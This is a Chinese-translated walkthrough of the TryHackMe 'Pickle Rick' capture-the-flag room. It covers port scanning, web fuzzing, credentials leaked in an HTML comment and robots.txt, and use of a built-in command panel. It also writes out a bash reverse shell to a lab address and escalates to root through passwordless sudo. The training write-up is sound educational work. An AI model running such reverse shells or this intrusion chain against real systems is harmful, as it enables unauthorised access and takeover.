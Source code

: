 # 特写:Pickle Rick @ TryHackMe

> 原文：<https://infosecwriteups.com/write-up-pickle-rick-tryhackme-6a3c838507c2?source=collection_archive---------1----------------------->

![](img/fc120f5225775e5721d44b749df35043.png)

这篇关于房间*泡菜里克*的报道是我为 [TryHackMe](https://tryhackme.com) 准备的演练系列的一部分。

[](https://tryhackme.com/room/picklerick) [## 泡菜里克

### 里克和莫蒂·CTF 夫妇。帮助瑞克变回人类！

tryhackme.com](https://tryhackme.com/room/picklerick) 

**房型**:自由
**难度**:轻松

# 实验室描述

![](img/ed1689b4cf17add7c665171fc1c6dc6d.png)

# 基本枚举

我从 nmap 扫描开始实验，寻找机器上开放的端口。

```
nmap -nv -Pn -sC -sV -O -T4 -oA nmap 10.10.13.30
```

我使用的选项如下:

*   -n
    无 DNS 解析
    在实验室中没有意义，速度变慢
*   -v
    Verbose
    一找到打开的端口就打印出来
*   -Pn
    没有 ping 扫描
    在实验室中，我假设目标在线
*   -sC
    使用默认的脚本集
    注意:这包括一些侵入式扫描，在 CTF 盒上这没问题，在现实世界中使用`--script=safe`更好
*   -sV
    版本检测
    尝试枚举找到的服务的版本
*   -O
    操作系统检测
    -T4
    使用激进计时
    另一个选项在 CTF 环境中很好，但在现实世界中可能会导致问题
*   -oA
    输出所有格式
    我想有所有格式存储:nmap，xml 和 grepable

如果没有指定端口的任何参数，nmap 会扫描 1000 个最常见的端口。如果你想了解更多，请看文件`/usr/share/nmap/nmap-services`。

结果显示只有两个端口打开:

![](img/5b61c15f06de8c9132f450597ec4ffd0.png)

前 1000 个 TCP 端口的 Nmap 结果

*   端口 22 上的 SSH。只要有其他的途径，通常不值得深入探究。
*   端口 80 上的 web 服务器。web 服务器和它们可能运行的应用程序通常直接位于优先级列表的顶部。

虽然操作系统检测返回不确定性，SSH 和 web 服务器都暗示指向 Ubuntu，可能是基于 [4ubuntu2.6](https://launchpad.net/ubuntu/xenial/amd64/openssh-server/1:7.2p2-4ubuntu2.6) 包版本的 Xenial (16.04)。

# 检查 web 应用程序

第一步是检查服务器上运行的 web 应用程序，因此我打开浏览器看了一下:

![](img/c6f536b2a87561fc8f25d23796583ab7.png)

主网页

这似乎是一个相当静态的页面，没有任何进一步的链接或功能。

然而，查看 HTML 会发现一条有趣的信息:用户名

![](img/59cae5df29e8fb701912fcde71654f0e.png)

HTML 注释中披露的用户名

# 查找更多网络内容

为了检查是否有其他公共文件，我用 [ffuf](https://github.com/ffuf/ffuf) 执行了一次快速模糊处理:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u [http://10.10.13.30/FUZZ](http://10.10.13.30/FUZZ)
```

![](img/d32a47acaf9c06af59ac33b1b27b5a6a.png)

用 ffuf 快速检查显示了两个有趣的文件

该扫描显示存在两个有趣的文件:

*   一个`robots.txt`
*   答`login.php`

无论如何，对`robots.txt`的检查应该是第一步，因为它可能包含有用的信息。不过，在这种情况下，它是一个非标准文件，只包含一个有趣的单词，这个单词在我所知道的任何语言中都不存在:

![](img/3cee245c7309e2816816f9ce7e696b94.png)

robots.txt 文件的内容

这可能是用户名的密码，所以我很快尝试用 ssh 登录。不幸的是，ssh 服务器不提供密码认证。

所以我移动到找到的第二页，即`login.php`，并在那里做同样的事情:

![](img/9610d0262c0ac9a2344efc6e028c71ab.png)

登录成功

# 检查 web 应用程序

登录成功，我开始浏览应用程序。顶部菜单中的所有链接都链接到一个`denied`页面，但是`commands`页面看起来很有趣。

我可以在那里执行的`command`可能是某个特定于应用程序的命令，也可能是一个 shell 命令。我通过键入`id`并执行它来快速尝试一下:

![](img/474967f1152d1fc9b1a846e8452ef374.png)

由应用程序所有者提供的 web shell

# 检查文件系统

原来，它是应用程序所有者为了我的方便而提供的一个 web shell。

我现在检查我可以执行命令的环境:

![](img/910e44bb9f26109da5de8f9c5a525ee5.png)

目录内容

试图使用`cut`或`head`读取文件是被禁止的，但是`egrep`没有，所以我用它来 grep 任何*字符:*

![](img/d09d547c726c7639c5df273442a2931c.png)

第一面旗帜

另一种方法是直接用浏览器打开文件。第二面旗也有线索:

![](img/1ecef4df10115e3e14cfe7ec07647a7e.png)

所以我按要求做了。在 rick 的主目录中，我找到了要求的第二种成分:

![](img/2463e9bd51fe990e3caf4d17934c839e.png)![](img/1dc73d46ac5e40ed845f23f9bdfcca8d.png)

第二面旗帜

# 获得合适的外壳

使用 web shell 是乏味的，尽管解决这个问题并不需要它，但我想获得适当的 shell 访问权限。在我的本地机器上，我用`ncat -nvlp 8888`启动一个 ncat 监听器，并在命令面板上执行一个反向 shell:

```
bash -c "bash -i >& /dev/tcp/10.14.5.57/8888 0>&1"
```

不幸的是，python 升级到正确的 tty shell 并不成功，因为 python 没有安装。但是这个反壳还是比 web 壳方便很多。

# 本地枚举

对于本地枚举，我使用工具 [linpeas](https://github.com/carlospolop/PEASS-ng) 。我把它下载到我的目标并执行它。

几秒钟后，显示了一个很好的结果:

![](img/d96cb843579139dfea7b141d050a769d.png)

在 linpeas 中发现易受攻击的配置

同样的信息可以通过`sudo -l`手动获取:

![](img/be4432006aee8234d01979a755e0cd80.png)

手动找到的相同

低权限帐户`www-data`被允许以 root 用户身份运行任何命令，而无需提供任何密码。

这是一个严重的错误配置，也是通往永恒诅咒的直接途径。

# 提升我的权限

剩下的唯一一件事就是以 root 用户身份执行一些命令:

![](img/6b542c4ddd6a86c5ff75347e7f44020b.png)

最后的旗帜

我输入最后的旗帜，房间就完成了。

![](img/5fd9cca4bfccb3d6ea0429926ce1d8e9.png)

*最初发表于*[*【https://github.com】*](https://github.com/frank-leitner/tryhackme/blob/main/Pickle_Rick/README.md)*。*

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*